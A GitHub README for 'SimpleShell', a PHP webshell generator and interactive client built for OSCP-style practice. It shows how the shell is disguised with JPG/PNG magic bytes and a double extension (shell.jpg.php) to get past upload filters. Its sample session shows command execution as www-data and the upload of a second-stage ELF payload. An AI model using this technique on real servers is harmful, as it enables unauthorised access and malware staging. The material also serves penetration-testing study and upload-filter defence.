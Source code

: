 # SimpleShell
This was invented to be a simple webshell, and interactive client. This was inspired by OSCP to get by loose file filtering with image magic bytes and a double file extension. The interactive client uses requests. So that will need to be installed. I've also included some pcap to show what the webshell interaction would look like :)
##### Improvements
* Added file upload feature
* Reworked webshell
* Added user-agent
* Wrapper detection

##### Needed work
* Reverse shell handler
* Encryption

## Generator
This simply writes the shell to a file. You can specify JPG/PNG as a wrapper for it.
##### Usage
```bash
/shellgen.py --help
usage: shellgen.py [-h] [-t T] [-l L] [-o O] [-p P]

optional arguments:
  -h, --help  show this help message and exit
  -t T        Type of file
  -l L        List types of files/payloads
  -o O        Output filename to save as
  -p P        Payload type
```
##### Example
```bash
./shellgen.py -p php -t jpg -o shell.jpg.php
file shell.jpg.php
shell.jpg.php: JPEG image data, JFIF standard 60.63, density 26736x8293, segment length 0, thumbnail 118x97
```
## Client
This is an interactive client to work with the webshell to be "terminal like." You can also upload files, which is nice. Eventually I'll add file downloads, reverse shell handlers, and even encryption.
##### Usage
```bash
./client.py --help
usage: client.py [-h] -u URL [--wrapper WRAPPER]

optional arguments:
  -h, --help         show this help message and exit
  -u URL, --url URL  URL to webshell
  --wrapper WRAPPER  Filetype wrapper JPG/PNG
```
##### Example
```bash
./client.py --url "http://localhost/shell.jpg.php" --wrapper jpg
 $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

 $ tools
  python
  bash
  perl
  nc
  php
  ruby
 $ upload secondstage.elf /var/crash/leet.elf  
upload successful
```

